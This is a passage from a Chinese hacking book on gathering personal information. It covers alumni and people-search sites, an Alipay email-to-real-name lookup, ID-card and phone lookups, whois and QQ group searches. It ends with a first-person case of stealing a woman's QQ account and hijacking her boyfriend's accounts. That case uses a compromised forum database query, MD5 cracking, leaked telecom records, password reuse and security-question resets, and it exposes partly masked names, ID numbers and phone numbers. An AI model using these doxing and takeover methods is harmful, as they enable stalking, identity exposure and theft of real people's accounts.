也许你现在正在读大学，或者正在某个企业工作，不管如何；你一定也会经常回忆小时候的事，想念小时候的玩伴。同学录正好给出这样的平台，以此维系曾经的朋友。但对攻击者来说，这是个很方便的信息刺探平台。

国内主要的校友录网站是5460同学录与ChinaRen校友录，它们的网址分别是http://www.5460.net与http://alumni.chinaren.com/。这两个网站都提供校友姓名直接查询，你可以查询到用户所在学校以及班级，但是查看个人联系方式有所限制。ChinaRen需要注册后并加入班级才能查看，而5460需要收1元的信息费方可查看。尽管有一定的局限性，但对我们来说仍有利用价值。

这里我随便使用一个姓名在ChinaRen的校友录中搜索看看，如图24所示。



搜索到了6222条信息，说明ChinaRen的用户数据库相当完备。如果你搜索到了某人的所在班级信息，想获得更详细信息可以使用搜索引擎进行查询。

### 2.4.2.2 另类的弱密点——搜人网

与校友录的功能没什么区别，只不过搜人网针对的是所有用户群。若始终查不到某人的信息的话，可以在这里碰碰运气。我来演示一下，打开网页http://www.ucloo.com，然后随便输入一个用户名，比如范伟，再回车……噢，结果出来了，居然还有明星范伟！如图25所示。



从整体上来说，搜人网提供的信息也很真实，有些数据来自于5460，例如我初中的同学就能搜索到，并提供了相关的个人信息。

##### 2.4.2.3 邮箱的查询——支付宝

利用支付宝查询邮箱可以获得对方的真实姓名，然而，这项服务只针对支付宝用户。但你不必担心，一般在网上买东西的人都会需要使用支付宝在线支付。如何查询呢？在浏览器提交这段网址即可：https://www.alipay.com/trade/i_credit.do?email=邮箱地址。

比如我要查找这个邮箱为fxy870105@126.com的用户的真实姓名，那么提交的网址就是：https://www.alipay.com/trade/i_credit.do?email=fxy870105@126.com，一会我们就查到这个邮箱使用者的真实姓名了，如图26所示。



### 2.4.2.4 IP地址、身份证与手机号码的查询

“查询网”(ip138.com)大家一定很熟悉，它提供了IP、身份证、手机号等查询服务，现在我们来看看如何使用。查IP很简单，直接在网页的“IP地址或者域名”处填入IP与域名即可，例如我们查询百度网站可获知服务器位于北京，如图27所示。



接着我们来看手机号码的查询，将查询网滚动栏下拉即可看到手机号码查询，这里我输入一个手机号码进行测试，结果如图28所示。

身份证号码查询也很简单，在身份证查询处填入身份证号码即可查到出生日期与住址，结果如图29所示。

我们可以发现，多数的查询服务不能返回真实姓名，这是出于用户的隐私考虑。假设我们已获得某人的真实姓名与身份证号码，那么我们还能看到对方的照片。具体怎么做呢？我们打开网页http://qq.ip138.com/idsearch/id.htm，会看到有关身份证信息核查的查询服务，这项服务主要由公安部提供；具体的操作是：用手机编辑信息“YW 姓名 身份证号码”发送到10665110。例如，用户王刚需要查询，则用手机编辑短信，输入：“YW王刚3601898900555555”并发送到10665110。但这项查询服务将会从你的手机扣除5元，手机短信查询结果数据来源于“公安部全国公民身份信息系统”。





### 2.4.2.5 域名Whois的查询

whois就是一个用来查询域名是否已经被注册，以及注册域名的详细信息的数据库（如域名所有人、域名注册商、域名注册日期和过期日期等），我们可以通过whois来实现对域名信息的查询。

Whois对我们有什么用呢？当你久久不能入侵某个站点的时候，不妨从网站创建者入手，以此来获知对方的个人信息。这里我以《黑客手册》的域名来进行演示，直接在网址http://whois.domaintools.com/后面加上《黑客手册》的域名即可，如http://whois.domaintools.com/nohack.cn，然后进行浏览后在浏览器中便能看到域名注册人信息了，如图30所示。



其中Registrant Name即注册用户名了，Registration Date是注册日期，通常这种信息在站点入侵中有所帮助，如你可以利用留下来的邮箱发送钓鱼邮件进行攻击。

### 2.4.2.6 QQ群信息搜索也疯狂

别忽视了QQ群的搜索，它通常能让你顺藤摸瓜找到真实想追踪的信息。我经常使用QQ群搜索，一是寻找主要的目标，二是扩充需求的人脉资源（有关人脉资源的信息将在第九章中介绍）。对于第一种寻找是试图搜索到真正需要联系的人，为什么这么说呢？这里以一个例子来进行说明。

现在我们将图31中的相关信息进行整理：BCT的群号为6867018，群限为179人，成员为56人；创建者是“嫉狗”，管理员还有“h4k_b4n”。想必大家也比较熟悉他们了，属于脚本好手。此时查询“nceao”的信息渠道非常之多，第一种是利用QQ好友查询功能，查询群号创建者的QQ号码。我们从图31中的网页知道了两位管理员的QQ号码，可添加他们为好友，然后索取nceao的联系方式。



图31

第二种属于强占，你可以对群进行QQ捐赠，然后就成为群的股东，此刻BCT全部人员名单自然就泄露了。其实，更简单的方法是直接搜索“nceao”，便可找到他创建的群，并查询到他的QQ号。

其他形式的搜索大致相同，一般来说，你去过某个论坛，这个论坛的管理员都会创建自己的QQ群，其根本的原因在于腾讯公司对用户缺乏隐私保护。另外还有一个好消息，百度HI聊天工具也将成为第二位强大的“隐私泄露集团”，其创建的群都引用至百度站点，隐私并不设限。

### 2.5 案例搜索应用与分析

你已经很迫不及待想看看信息搜索过程中的攻击应用了吧？是的，故事总是比理论更加吸引人。在这一小节，你将看到信息搜索所带来的影响力以及危害，阅读的过程中不要忽略一些微小的细节，它们就像武侠世界里的坏蛋，表面在微笑，但却暗藏杀机。

首先，我得感谢我的朋友fhod，是他答应为我辛苦整理一篇精彩的攻击案例《一个密码引发的“血案”》，让我们看到信息搜索的危害；另一篇是我较早时写的《叉子找MM记》，我将其内容再次修改，重命名为《一分钟，和美丽的女孩谈论天气的方法》。这两篇已分别发表于安全杂志了，并感谢Webshell提供了一条线索，让我完成了《深层挖掘骗子黑客站长的秘密》；另外一篇《告诉你如何跟踪网站信息》，我将以fhod的博客说明信息跟踪的方法。

#### 2.5.1 一个密码引发的“血案”

一个偶然的机会，在帮助朋友盗某个女生的QQ号时，查到此号码是她男朋友赠送的，通过查看她QQ空间的留言肯定了QQ号码198***2就是她男朋友的。

当时一看他的QQ号和我一样貌似是生日号码，于是就查看了他QQ资料，个人说明栏处写着“一个退休的重量级黑客”。因为这个女生的QQ号码是5位；而他的QQ号码又是生日号，还又自称是黑客，于是我有了一个念头：一定要把他的生日号码和这个女生的5位号弄到手。

接下来我开始对QQ号为198***2的用户进行调查，当时正好手里有我们当地一个大型论坛的服务器权限，而他又是常上网的人，有很大希望也注册过这个论坛。于是我进入论坛后台，在数据库里执行`SELECT * FROM [Dv_User] where [userim] like '%198***2%'`命令查询QQ资料包含198***2的所有用户，查询出两个ID：宁宁、我本有情。接着再将宁宁的MD5密码值在cmd5.com网站进行破解，得到的明文密码为553***0，如图32所示。



使用破解到的密码登录论坛，翻看他所有回复的帖子以及论坛的个人短消息，并没有找到任何有价值的信息。这时我留意到密码实际上就是一段电话号码，刚好我手里有电信用户的数据，因此我们当地所有的家庭电话只要知道号码就能查询出来。输入此号码，很快就查到了拥有该电话号码的真实用户信息，如图33所示。

| 字段 | 值 |
|---|---|
| 姓名 | **（模糊）** |
| 性别 | 男 |
| 住址 | **（模糊）** |
| 入网日期 | 1997-02-01 00:00:00 |



号码机主姓名为“陈明新”，很有可能是其父亲的名字（这点在之后的调查中得到了证实）。我有一个习惯，无论是哪个QQ，我都喜欢从交友中心来看他的资料，因为有些人缺乏足够的安全意识，所以留下的资料真实性在80%以上。但是现在直接从QQ查看的话，有的部分只允许高级用户查看，所以我根据部分能看资料抓了数据包，构造出个URL的提交参数，然后写了个小程序方便查询，一会就查到了，如图34所示。

照片、生日等个人详细资料就轻松弄到手了，根据生日信息可以确定这个QQ是他的生日号。



在他的详细资料“个人主页”处填写的是http://b**n.51.com；使用前面得到的论坛密码很顺利进入他的51博客。很多人都有使用同一个密码的习惯，而这个所谓的“重量级黑客”也不例外，登录成功了，如图35所示。



图35

继续在对方博客后台查找，很快，在相册处又找到了一个非常有价值的信息，是他的计算机等级考试证书，如图36所示。


图36

计算机四级证！当时看到的时候以为这家伙真的很牛，不过在后来的信息刺探过程中证明他啥也不会，真不知道这个四级证书是怎么来的……暂且不管那么多了，从证书扫描件中得到他的真实姓名为“陈宇”，身份证号码为：342126198****0176。这能确定之前电话查询到的“陈明新”跟他很有可能就是父子关系。

在有了一次密码正确的经历之后，我尝试使用最初的密码登录QQ号；很可惜，提示密码错误。既然密码不对，那我就来帮他修改密码（这里的找回QQ密码功能与现在的是不同的）。

找回密码得先过安全提问这一关，他的密码提问是“我叫什么？”，我就试着填写他的名字“陈宇”，网页提示“结果已经发送至安全信箱”。但我并不知道安全信箱的地址是什么。于是接着搜集信息。

根据他的51博客地址，我又找到了另外的两个51博客，即http://b**n**2.51.com/和http://b**n***0.51.com/。根据博客的注册信息找到了他的手机号码138567****0和小灵通号码0558522***5，而且还有电子邮箱cnq**@ah163.com。

抱着试一试的心态用得到的密码去登录邮箱，可惜返回仍是登录密码错误。好吧，那我先搞定他的邮箱密码……同样也使用邮箱密码找回功能，生日我们已经知道了，顺利通过。当时的提问好像是跟QQ一样的，反正我是修改了他的密码（对方后来又改回去了），如图37所示。

